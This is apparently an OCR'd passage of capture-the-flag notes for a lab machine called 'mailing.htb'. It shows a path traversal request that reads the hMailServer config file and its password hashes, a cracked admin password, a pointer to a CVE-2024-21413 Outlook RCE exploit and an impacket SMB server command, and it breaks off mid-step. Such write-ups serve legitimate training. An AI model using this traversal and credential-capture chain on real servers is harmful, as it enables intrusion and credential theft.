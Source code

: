 
---MAIN-OUTPUT---
127.0.0.1	mailing.htb
```
- We check for config file location for hMailServer
	- Google "hMailServer config file location"
		- In an hMailServer forum post
			```bash
c:\program files (x86\hMailServer\Bin\hMailServer.ini
```
			- We try it on BurpSuite
- Send a GET Request to config file location:
	```bash
GET /download.php?file=..\..\Program+Files+(x86)\hMailServer\Bin\hMailServer.ini HTTP/1.1
Host: mailing.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://mailing.htb/index.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i


---OUTPUT---
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```
	- ca use Progra~2 for x86 and Progra~1 for normal instead of dealing with spaces
	- Administrator Password : `841bb5acfa6779ae432fd7a4e6600ba7`
	- MSSQL
- Using crackstation.net
	- Password: homenetworkingadministrator
## Initial Foothold
- We know there is a mail server running
	- So there must be a mail client
		- By default in Windows it's Windows Mail (also shown in the instructions pdf)
			- On searching for exploits we find:
				- https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability
					- Run smbserver on directory with
				```bash
impacket-smbserver smbFolder $(pwd) -smb2support

OR
```